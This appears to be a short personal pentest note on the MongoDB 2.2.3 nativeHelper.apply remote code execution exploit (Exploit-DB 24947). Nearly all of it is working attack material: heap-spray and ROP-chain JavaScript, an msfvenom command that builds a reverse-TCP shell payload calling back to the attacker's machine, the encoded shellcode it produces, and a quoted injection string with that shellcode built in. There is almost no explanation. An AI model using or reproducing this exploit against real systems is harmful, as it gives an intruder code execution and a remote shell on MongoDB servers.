 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### # MongoDB 2.2.3 - nativeHelper.apply Remote Code Execution

[https://www.exploit-db.com/exploits/24947](https://www.exploit-db.com/exploits/24947)

Original:
```
shellcode=unescape("METASPLOIT JS GENERATED SHELLCODE"); sizechunk=0x1000; chunk=""; for(i=0;i<sizechunk;i++){ chunk+=unescape("%u9090%u9090"); } chunk=chunk.substring(0,(sizechunk-shellcode.length)); testarray=new Array(); for(i=0;i<25000;i++){ testarray[i]=chunk+shellcode; } ropchain=unescape("%uf768%u0816%u0c0c%u0c0c%u0000%u0c0c%u1000%u0000%u0007%u0000%u0031%u0000%uffff%uffff%u0000%u0000"); sizechunk2=0x1000; chunk2=""; for(i=0;i<sizechunk2;i++){ chunk2+=unescape("%u5a70%u0805"); } chunk2=chunk2.substring(0,(sizechunk2-ropchain.length)); testarray2=new Array(); for(i=0;i<25000;i++){ testarray2[i]=chunk2+ropchain; } nativeHelper.apply({"x" : 0x836e204}, ["A"+"\x26\x18\x35\x08"+"MongoSploit!"+"\x58\x71\x45\x08"+"sthack is a nice place to be"+"\x6c\x5a\x05\x08"+"\x20\x20\x20\x20"+"\x58\x71\x45\x08"]);
```

```bash - kali
msfvenom -p linux/x86/shell_reverse_tcp LHOST=$KALI LPORT=443 -f js_le
```

%udb31%ue3f7%u4353%u6a53%u8902%ub0e1%ucd66%u9380%ub059%ucd3f%u4980%uf979%uc068%u77a8%u6898%u0002%ubb01%ue189%u66b0%u5150%ub353%u8903%ucde1%u5280%u6e68%u732f%u6868%u2f2f%u6962%ue389%u5352%ue189%u0bb0%u80cd

![[rlwrap]]

```
';shellcode=unescape("%udb31%ue3f7%u4353%u6a53%u8902%ub0e1%ucd66%u9380%ub059%ucd3f%u4980%uf979%uc068%u77a8%u6898%u0002%ubb01%ue189%u66b0%u5150%ub353%u8903%ucde1%u5280%u6e68%u732f%u6868%u2f2f%u6962%ue389%u5352%ue189%u0bb0%u80cd"); sizechunk=0x1000; chunk=""; for(i=0;i<sizechunk;i++){ chunk+=unescape("%u9090%u9090"); } chunk=chunk.substring(0,(sizechunk-shellcode.length)); testarray=new Array(); for(i=0;i<25000;i++){ testarray[i]=chunk+shellcode; } ropchain=unescape("%uf768%u0816%u0c0c%u0c0c%u0000%u0c0c%u1000%u0000%u0007%u0000%u0031%u0000%uffff%uffff%u0000%u0000"); sizechunk2=0x1000; chunk2=""; for(i=0;i<sizechunk2;i++){ chunk2+=unescape("%u5a70%u0805"); } chunk2=chunk2.substring(0,(sizechunk2-ropchain.length)); testarray2=new Array(); for(i=0;i<25000;i++){ testarray2[i]=chunk2+ropchain; } nativeHelper.apply({"x" : 0x836e204}, ["A"+"\x26\x18\x35\x08"+"MongoSploit!"+"\x58\x71\x45\x08"+"sthack is a nice place to be"+"\x6c\x5a\x05\x08"+"\x20\x20\x20\x20"+"\x58\x71\x45\x08"]);'
```

